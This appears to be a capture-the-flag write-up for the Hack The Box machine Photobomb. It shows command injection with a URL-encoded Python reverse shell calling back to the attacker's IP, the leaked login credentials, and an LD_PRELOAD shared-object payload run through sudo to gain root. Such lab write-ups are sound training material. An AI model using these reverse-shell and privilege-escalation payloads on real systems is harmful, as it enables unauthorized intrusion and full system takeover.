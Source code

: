 
![image](https://user-images.githubusercontent.com/87468669/197399146-df6f333b-7f0d-4919-b198-ae1964ea75ef.png)

First we start with an nmap scan 

`nmap -sC -sV -T4 -oN nmap.txt <IP>

```
# Nmap 7.93 scan initiated Sat Oct 22 18:26:00 2022 as: nmap -sC -sV -T4 -oN quickmap.txt photobomb.htb
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
4111/tcp filtered xgrid
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 22 18:26:52 2022 -- 1 IP address (1 host up) scanned in 51.60 seconds
```

nice we have 2 ports open ssh and http. Let's enumerate port 80 which is http first.

first we add photobomb.htb to our hosts file

![image](https://user-images.githubusercontent.com/87468669/197399755-803eb194-e3fc-4195-a617-01e712320013.png)

Browse photobomb.htb 

![image](https://user-images.githubusercontent.com/87468669/197399812-84d6cbfe-8823-47a2-983e-f73766a2d7cc.png)

viewed page source, there's nothing hidden there 

![image](https://user-images.githubusercontent.com/87468669/197401678-9fde54af-5ede-4d22-b5fe-991302ae6bf1.png)

tried bruteforcing directories

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/Photobomb]                                                                                                       [1/66]
└─$ ffuf -u "http://photobomb.htb/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .txt,.php,.bak,.js -fc 403                                                         

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://photobomb.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt .php .bak .js  
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

                        [Status: 200, Size: 843, Words: 136, Lines: 23, Duration: 250ms]
printer                 [Status: 401, Size: 188, Words: 6, Lines: 8, Duration: 2679ms]
:: Progress: [23070/23070] :: Job [1/1] :: 157 req/sec :: Duration: [0:06:47] :: Errors: 63 ::

```

navigate to /printer directory, and it is asking us to login

![image](https://user-images.githubusercontent.com/87468669/197401595-7e5bae65-4963-454c-9d33-9c770db040e1.png)

let's go back to the home page of photobomb.htb, inspect element navigate to the network path and refreshed the page 

![image](https://user-images.githubusercontent.com/87468669/197401776-dbaa6542-8d8a-4ea5-82b3-4267fbd280a3.png)

let's navigate to /photobomb.js directory 

![image](https://user-images.githubusercontent.com/87468669/197401793-03aada35-6578-4058-a358-6db6e0eb879a.png)

There we have the creds to login `username: pH0t0 password:b0Mb!`. let's login 

![image](https://user-images.githubusercontent.com/87468669/197401992-72a4289e-b0d6-4539-bcaf-3fb7bd7ad1b9.png)

Boom!!! we are in, let's enumerate to get shell.

![image](https://user-images.githubusercontent.com/87468669/197402070-fc34758f-ed21-40f5-834c-b45790eabf24.png)

the webapp is a place to download photos, intercepting with burp and try to inject a reverse shell into the request

![image](https://user-images.githubusercontent.com/87468669/197402480-b56d8651-2f38-4978-b8b0-345781aebe1a.png)

Ncat listener ready 

![image](https://user-images.githubusercontent.com/87468669/197402524-97911176-faf3-4a79-bcab-0dcb6a273b85.png)

reverse shell payload in url encode 

```
python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.18%22%2C1337%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```

![image](https://user-images.githubusercontent.com/87468669/197402621-5be908eb-0b85-4d18-a633-143a469476db.png)

Check ncat listener and we got shell

![image](https://user-images.githubusercontent.com/87468669/197402640-173393ec-c3dc-4979-b82e-fd182c2876ba.png)

stabilize the shell

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/Photobomb]
└─$ nc -lnvp 1337                                     
listening on [any] 1337 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.11.182] 33924
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/Photobomb]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1337
                               export TERM=xterm
wizard@photobomb:~/photobomb$ stty rows 40 cols 160
wizard@photobomb:~/photobomb$ 

```

now we have a stable shell and we got shell as user wizard, let's escalate privilege to root. by just checking sudo -l, we cat see that user wizard may run  (root) SETENV: NOPASSWD: /opt/cleanup.sh. 

![image](https://user-images.githubusercontent.com/87468669/197402859-cad9ad69-9a14-4354-a1a3-1299ee0faa56.png)

let's read the content of the file 

```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

tried to write the file, but it is not writable. looking at the sudo commands, i found out  what we are looking for has something to do with LD_PRELOAD 😉... so let's research about LD_PRELOAD. 

Read about it here: https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/...

generate a C code 

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

compile the code 

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![image](https://user-images.githubusercontent.com/87468669/197403760-8828329d-34da-440d-a217-7051070d37ad.png)

now send it to the target machine 

![image](https://user-images.githubusercontent.com/87468669/197403798-8e78bda6-6b45-403b-ba42-d6664a8acd55.png)

now run the code

```
wizard@photobomb:/tmp$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /opt/cleanup.sh
# id   
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@photobomb:/tmp# 

```

![image](https://user-images.githubusercontent.com/87468669/197403872-e5c1b174-a5c8-4b47-b897-4404670072b6.png)

We are root!!!

Proof

![image](https://user-images.githubusercontent.com/87468669/197403920-bebc5e42-652b-434f-9a9e-7b11e6d12cfb.png)

And we are done, hope you had fun😉.
